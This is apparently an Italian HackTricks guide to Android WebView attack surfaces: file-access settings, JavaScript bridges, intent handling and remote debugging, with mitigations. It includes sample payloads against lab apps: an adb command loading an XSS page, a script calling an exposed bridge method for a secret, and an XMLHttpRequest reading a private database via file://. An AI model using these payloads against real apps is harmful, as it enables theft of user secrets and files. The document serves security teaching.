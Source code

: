 # Webview Attacks

{{#include ../../banners/hacktricks-training.md}}

## Guida alle Configurazioni e Sicurezza di WebView

### Panoramica delle Vulnerabilità di WebView

Un aspetto critico dello sviluppo Android riguarda la corretta gestione delle WebView. Questa guida evidenzia le configurazioni chiave e le pratiche di sicurezza per mitigare i rischi associati all'uso di WebView.

![WebView Example](<../../images/image (1190).png>)

### **Accesso ai File in WebViews**

Per impostazione predefinita, le WebView consentono l'accesso ai file. Questa funzionalità è controllata dal metodo `setAllowFileAccess()`, disponibile dalla versione 3 dell'API Android (Cupcake 1.5). Le applicazioni con il permesso **android.permission.READ_EXTERNAL_STORAGE** possono leggere file dallo storage esterno utilizzando uno schema URL di file (`file://path/to/file`).

#### **Funzionalità Deprecate: Accesso Universale e Accesso ai File da URL**

- **Accesso Universale da URL di File**: Questa funzionalità deprecata consentiva richieste cross-origin da URL di file, rappresentando un rischio significativo per la sicurezza a causa di potenziali attacchi XSS. L'impostazione predefinita è disabilitata (`false`) per le app destinate a Android Jelly Bean e versioni successive.
- Per controllare questa impostazione, utilizzare `getAllowUniversalAccessFromFileURLs()`.
- Per modificare questa impostazione, utilizzare `setAllowUniversalAccessFromFileURLs(boolean)`.
- **Accesso ai File da URL di File**: Questa funzionalità, anch'essa deprecata, controllava l'accesso ai contenuti da altri URL di schema file. Come l'accesso universale, la sua impostazione predefinita è disabilitata per una maggiore sicurezza.
- Utilizzare `getAllowFileAccessFromFileURLs()` per controllare e `setAllowFileAccessFromFileURLs(boolean)` per impostare.

#### **Caricamento Sicuro dei File**

Per disabilitare l'accesso al file system pur accedendo a risorse e asset, si utilizza il metodo `setAllowFileAccess()`. Con Android R e versioni successive, l'impostazione predefinita è `false`.

- Controllare con `getAllowFileAccess()`.
- Abilitare o disabilitare con `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

La classe **WebViewAssetLoader** è l'approccio moderno per il caricamento di file locali. Utilizza URL http(s) per accedere ad asset e risorse locali, allineandosi con la policy Same-Origin, facilitando così la gestione del CORS.

### loadUrl

Questa è una funzione comune utilizzata per caricare URL arbitrari in una webview:
```java
webview.loadUrl("<url here>")
```
Certo, un potenziale attaccante non dovrebbe mai essere in grado di **controllare l'URL** che un'applicazione sta per caricare.

### **Gestione di JavaScript e Intent Scheme**

- **JavaScript**: Disabilitato per impostazione predefinita nei WebView, può essere abilitato tramite `setJavaScriptEnabled()`. Si consiglia cautela poiché abilitare JavaScript senza le dovute precauzioni può introdurre vulnerabilità di sicurezza.
- **Intent Scheme**: I WebView possono gestire lo schema `intent`, potenzialmente portando a exploit se non gestito con attenzione. Un esempio di vulnerabilità riguardava un parametro WebView esposto "support_url" che poteva essere sfruttato per eseguire attacchi di cross-site scripting (XSS).

![Vulnerable WebView](<../../images/image (1191).png>)

Esempio di sfruttamento utilizzando adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Javascript Bridge

Una funzionalità è fornita da Android che consente a **JavaScript** in un WebView di invocare **funzioni native delle app Android**. Questo viene realizzato utilizzando il metodo `addJavascriptInterface`, che integra JavaScript con le funzionalità native di Android, definito come un _WebView JavaScript bridge_. Si consiglia cautela poiché questo metodo consente a tutte le pagine all'interno del WebView di accedere all'oggetto JavaScript Interface registrato, ponendo un rischio per la sicurezza se informazioni sensibili vengono esposte attraverso queste interfacce.

- **È necessaria un'estrema cautela** per le app destinate a versioni Android inferiori a 4.2 a causa di una vulnerabilità che consente l'esecuzione di codice remoto tramite JavaScript malevolo, sfruttando la riflessione.

#### Implementing a JavaScript Bridge

- **Le interfacce JavaScript** possono interagire con il codice nativo, come mostrato negli esempi in cui un metodo di classe è esposto a JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- Il JavaScript Bridge è abilitato aggiungendo un'interfaccia al WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge")
webView.reload()
```
- Potenziale sfruttamento tramite JavaScript, ad esempio, attraverso un attacco XSS, consente la chiamata di metodi Java esposti:
```html
<script>
alert(javascriptBridge.getSecret())
</script>
```
- Per mitigare i rischi, **limitare l'uso del ponte JavaScript** al codice fornito con l'APK e impedire il caricamento di JavaScript da fonti remote. Per i dispositivi più vecchi, impostare il livello API minimo a 17.

### Esecuzione Remota di Codice Basata su Riflesso (RCE)

- Un metodo documentato consente di ottenere RCE tramite riflessione eseguendo un payload specifico. Tuttavia, l'annotazione `@JavascriptInterface` impedisce l'accesso non autorizzato ai metodi, limitando la superficie di attacco.

### Debug Remoto

- **Il debug remoto** è possibile con **Chrome Developer Tools**, consentendo l'interazione e l'esecuzione arbitraria di JavaScript all'interno del contenuto WebView.

#### Abilitare il Debug Remoto

- Il debug remoto può essere abilitato per tutti i WebView all'interno di un'applicazione tramite:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Per abilitare il debug in modo condizionale in base allo stato di debug dell'applicazione:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Esfiltrare file arbitrari

- Dimostra l'esfiltrazione di file arbitrari utilizzando un XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest()
xhr.onreadystatechange = function () {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText)
}
}
xhr.open(
"GET",
"file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db",
true
)
xhr.send(null)
```
## Riferimenti

- [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
- [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
- [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
- [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
- [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{{#include ../../banners/hacktricks-training.md}}
